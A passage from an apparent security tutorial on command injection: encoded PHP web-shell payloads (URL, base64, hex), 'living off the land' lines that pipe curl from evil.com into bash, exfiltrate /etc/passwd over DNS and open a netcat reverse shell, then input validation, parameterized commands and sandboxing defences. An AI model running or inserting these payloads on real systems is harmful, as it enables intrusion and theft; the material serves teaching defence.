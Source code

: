 #### **2. Encoding Evasion**
```python
# URL encoding
"%3C%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%20%3F%3E"

# Base64 encoding
"<?php eval(base64_decode('c3lzdGVtKCRfR0VUWydjbWQnXSk7')); ?>"

# Hex encoding
"<?php eval(hex2bin('73797374656d28245f4745545b27636d64275d293b')); ?>"
```

#### **3. Living Off The Land**
Using legitimate system tools for malicious purposes:
```bash
# Download malware using curl
curl http://evil.com/malware.sh | bash

# Exfiltrate data using DNS
cat /etc/passwd | base64 | while read line; do nslookup $line.evil.com; done

# Create reverse shell using netcat
nc -e /bin/bash attacker.com 4444
```

#### **Defense Strategies:**

#### **1. Input Validation**
```python
# Whitelist approach (recommended)
allowed_chars = re.compile(r'^[a-zA-Z0-9._-]+$')
if not allowed_chars.match(user_input):
    raise ValueError("Invalid input")

# Blacklist approach (less secure)
dangerous_chars = ['<', '>', ';', '|', '&', '$', '`']
for char in dangerous_chars:
    if char in user_input:
        raise ValueError("Dangerous character detected")
```

#### **2. Parameterized Commands**
```python
# Vulnerable
os.system(f"ping -c 4 {user_ip}")

# Secure
subprocess.run(['ping', '-c', '4', user_ip], capture_output=True)
```

#### **3. Sandboxing**
- **Containers:** Docker, LXC for process isolation
- **chroot jails:** Restrict filesystem access
- **SELinux/AppArmor:** Mandatory access controls
- **Resource limits:** CPU, memory, network restrictions
